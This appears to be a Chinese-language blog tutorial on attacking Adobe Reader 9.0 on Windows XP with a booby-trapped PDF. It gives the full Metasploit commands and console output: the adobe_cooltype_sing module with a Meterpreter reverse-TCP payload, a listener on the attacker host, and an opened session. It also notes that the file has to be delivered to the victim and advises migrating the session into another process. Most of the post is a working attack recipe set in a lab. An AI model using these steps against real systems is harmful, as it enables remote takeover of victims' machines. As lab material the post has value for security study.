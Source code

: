 ```yaml
---
layout: post
category: binghe-code-hack
title: 基于PDF文件格式的渗透攻击
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 基于PDF文件格式的渗透攻击
lock: need
---
```


# 基于PDF文件格式的渗透攻击

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

漏洞程序： Adobe Reader 9.0

## 生成PDF文件

```bash
msfconsole
use exploit/windows/fileformat/adobe_cooltype_sing 
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.175.128
show options
exploit
```

具体如下所示：

```bash
msf5 > use exploit/windows/fileformat/adobe_cooltype_sing 
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > show options

Module options (exploit/windows/fileformat/adobe_cooltype_sing):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.pdf          yes       The file name.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

   **DisablePayloadHandler: True   (RHOST and RPORT settings will be ignored!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/fileformat/adobe_cooltype_sing) > exploit

[*] Creating 'msf.pdf' file...
[+] msf.pdf stored at /root/.msf4/local/msf.pdf
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > 
```

可以看到在/root/.msf4/local/目录下生成了msf.pdf。

实际中，我们需要想办法将这个文件传到靶机上。这里为了简单，我直接将文件拷贝到靶机上。

## 上传PDF到靶机

将生成的msf.pdf上传到靶机

## 实施攻击

```bash
msfconsole
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.175.128
exploit
```

具体如下：

```bash
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
```

## 打开PDF文件

在靶机上利用Adobe Reader 9.0打开PDF文件

## 查看获得的Meterpreter

在攻击机Kali上，我们看到MSF控制台中获得了Meterpreter权限。

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1431) at 2019-01-24 16:05:52 +0800

meterpreter > 
```

**最后，最好用migrate命令将当前会话进程绑定到系统的其他进程中。**


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
